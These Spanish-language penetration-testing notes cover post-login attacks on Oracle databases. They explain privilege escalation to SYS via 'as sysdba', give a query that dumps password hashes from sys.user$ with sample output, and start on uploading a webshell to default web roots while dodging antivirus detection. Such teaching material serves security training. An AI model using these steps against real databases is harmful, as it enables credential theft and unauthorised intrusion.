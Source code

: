 **No siempre el usuario podrá hacer un "as sysdba", depende de si existe una mala configuración por parte del administrador.

En resumen:
- Si `scott` se conectara normalmente (`sqlplus scott/tiger@...`), solo tendría los roles _CONNECT_ y _RESOURCE_.
- Con `as sysdba`, Oracle ignora esos privilegios y **te eleva directamente a SYS**, que tiene acceso absoluto.

Una vez que accedemos a una base de datos Oracle, podemos seguir diversos enfoques. Esto depende en gran medida de la información disponible y de la configuración completa. Sin embargo, no podemos agregar nuevos usuarios ni realizar modificaciones. 

### ESTRATEGIA 1: Recuperación de hashes de contraseñas $sys.user 
A partir de este punto, podríamos recuperar los hashes de contraseñas `sys.user$`e intentar descifrarlos sin conexión. La consulta para esto sería similar a la siguiente:

```shell-session
SQL> select name, password from sys.user$;
```

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

### ESTRATEGIA 2: Cargar webshell
Otra opción es cargar un shell web al destino. Sin embargo, esto requiere que el servidor ejecute un servidor web y necesitamos conocer la ubicación exacta del directorio raíz del servidor web. No obstante, si conocemos el tipo de sistema con el que trabajamos, podemos probar las rutas predeterminadas, que son:

| OS       | Ruta                 |
| -------- | -------------------- |
| Linux    | `/var/www/html`      |
| Ventanas | `C:\inetpub\wwwroot` |
En primer lugar, siempre es importante probar nuestro enfoque de explotación con archivos que no parezcan peligrosos para los sistemas antivirus o de detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para subirlo al sistema objetivo.
